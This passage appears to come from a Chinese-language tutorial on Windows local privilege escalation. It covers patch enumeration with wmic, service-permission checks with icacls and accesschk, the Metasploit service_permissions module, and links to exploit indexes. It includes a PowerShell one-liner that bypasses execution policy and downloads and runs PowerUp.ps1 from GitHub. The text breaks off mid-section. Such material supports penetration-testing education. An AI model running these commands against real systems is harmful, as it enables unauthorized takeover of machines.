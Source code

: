 ```bash
wmic qfe get Description,HotFixID,InstalledOn
如果要定位到特定的补丁可以使用如下命令
wmic qfe get Description,HotFixID,InstalledOn | findstr /C:"KB4346084" /C:"KB4509094"
查看当前安装程序
wmic product get name,version
```

### 错误配置提权

```bash
#powerup 提供了一些本地提权的方法，可以通过很多实用的脚本来寻找目标机器的 windows 服务漏洞
https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
可直接通过 powershell 远程加载
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"


#msf 对应的模块为 exploit/windows/local/service_permissions  但前提是获得一个会话
run exploit/windows/local/service_permissions #自动化提权，回来的的权限就是 system


#当工具无法使用时，也可以手工查找，使用 Windows 内建工具 icacls 查看服务启动路径中写权限
例如：icacls "C:\Program Files"
icacls "C:\Program Files\Common Files"

#查看指定目录的权限配置情况
accesschk.exe -dqv "D:\test" -accepteula
参数说明：“M”表示修改，“F”代表完全控制，“CI”代表从属容器将继承访问控制项，“OI”代表从属文件将继承访问控制项。

#检查服务 如果是.SERVICE_ALL_ACCESS 的意思是我们对“Vulnerable Service”的属性拥有完全控制权
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
sc qc 服务名   #查看可以完全控制的服务的属性。
```

`辅助提权站点`

-   [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
-   [https://wiki.0-sec.org/#/index](https://wiki.0-sec.org/#/index)
-   [https://github.com/neargle/win-powerup-exp-index](https://github.com/neargle/win-powerup-exp-index)
-   [http://blog.neargle.com/win-powerup-exp-index/](http://blog.neargle.com/win-powerup-exp-index/)
-   [https://detect.secwx.com](https://detect.secwx.com/)

这里进行细分，我们了解一下什么是`系统服务权限配置错误`  
原理：在 Windows 系统服务文件在操作系统启动时加载并执行，并调用可执行文件。这时当一个`低权限用户存在可执行文件读写权限，就可以将该文件进行替换，从而随着系统服务启动获取系统权限。一般情况下，Windows是以System权限执行`

### accesschk 工具

下载链接：[https://download.sysinternals.com/files/SysinternalsSuite.zip](https://download.sysinternals.com/files/SysinternalsSuite.zip)  
命令如下
